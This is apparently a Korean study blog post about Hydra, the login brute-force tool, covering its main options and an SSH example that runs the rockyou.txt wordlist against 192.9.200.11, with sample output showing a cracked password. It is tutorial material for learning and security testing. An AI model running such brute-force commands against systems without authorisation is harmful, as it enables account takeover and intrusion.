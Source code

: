 ```yaml
---
layout: post
title: "Hydra 공부"
date: 2025-08-28 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Hydra는 네트워크 로그인 서비스에 무차별 대입 공격(Brute-force Attack)을 수행하는 도구이다.

다양한 프로토콜`SSH · FTP · HTTP`을 지원하며 사용자 이름과 비밀번호 목록(사전 파일)을 이용해 빠르고 병렬적으로 로그인을 시도하여 계정 정보를 알아내는 데 특화되어 있다.

---

### 2. 기본 사용법

Hydra는 여러 옵션을 조합하여 공격을 수행한다.

```bash
hydra -l [사용자 이름] -P [비밀번호 사전 파일] [대상 IP] [프로토콜]
```
*   **-l [username]**: 단일 사용자 이름을 지정한다.
*   **-L [userlist]**: 사용자 이름 목록 파일을 지정한다.
*   **-p [password]**: 단일 비밀번호를 지정한다.
*   **-P [passlist]**: 비밀번호 목록(사전) 파일을 지정한다.
*   **-t [tasks]**: 동시에 시도할 스레드 수를 지정하여 속도를 조절한다.

---

### 3. 사용 예시: SSH 무차별 대입 공격

Target 서버(`192.9.200.11`)의 SSH 서비스를 대상으로 `user`라는 계정에 대해 `rockyou.txt` 사전 파일을 이용해 비밀번호를 크랙하는 상황이다.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.9.200.11 ssh
```
   ![HydraSsh](/assets/images/Hydra_1.png)

**결과 분석**
Hydra는 `rockyou.txt` 파일의 비밀번호들을 순차적으로 대입하여 로그인을 시도한다. 공격에 성공하면 위 결과와 같이 `[22][ssh] host: 192.9.200.11 login: user password: password123` 형식으로 알아낸 계정 정보를 출력한다.

이 결과는 시스템의 첫 번째 접근 권한을 획득하는 중요한 발판이 된다.

<hr class="short-rule">